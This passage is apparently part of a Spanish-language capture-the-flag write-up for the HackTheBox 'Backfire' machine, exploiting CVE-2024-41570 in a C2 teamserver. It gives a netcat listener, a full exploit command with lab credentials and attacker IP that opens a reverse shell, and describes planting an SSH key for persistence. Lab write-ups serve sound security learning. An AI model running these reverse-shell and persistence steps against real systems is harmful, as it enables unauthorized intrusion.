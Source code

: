 el cual nos dice los pasos que debemos seguir para epxlotar esta vulnerabilidad

<h3>CVE-2024-41570</h3> 

todo inicia al intentar registrar un agente en un enpoint del teamserver para poder interactuar con el sistema, crea una conexion websocket luego le solicita al servidor abrir una conexion tcp hacia nuestra ip de atacante con un handshake, nos autentica ante el servidor (alli que nos pide las credenciales encontradas ) y luego inyecta el comando malicioso

para ejecutarlo:
```bash
python3 -m venv 3vilsec
source 3vilsec/bin/activate
git clone https://github.com/kit4py/CVE-2024-41570/blob/main/exploit.py
cd CVE*
pip install -r requirements.txt
```

vamos a instalar y ejecutar esto en un entorno python, ahora, en otra terminal, tendremos nuestro nc en ecucha:
```bash
nc -lnvp 4443
```

y en el entorno se ejecuta:
```bash
python3 exploit.py -t https://backfire.htb -i 127.0.0.1 -p 40056 -U ilya -P CobaltStr1keSuckz! -l 10.10.14.193 -L 4443
```

nos dara una reverse shell como ilya:
<img src="/images/writeup-backfire/Pasted image 20250512095310.png">

la cual en poco tiempo se va a cerrar (habrá algún script que detecte esto y nos complique la terminal) pero si vamos rápido a su /home veremos la flag del usuario:

<img src="/images/writeup-backfire/Pasted image 20250512095449.png">

tambien tiene un directorio .ssh el cual no tiene una id rsa, pero si un authorized_keys, así que vamos a meter alli la key de nuestra maquina para que podamos conectarnos como ese usuario sin necesidad de contraseña
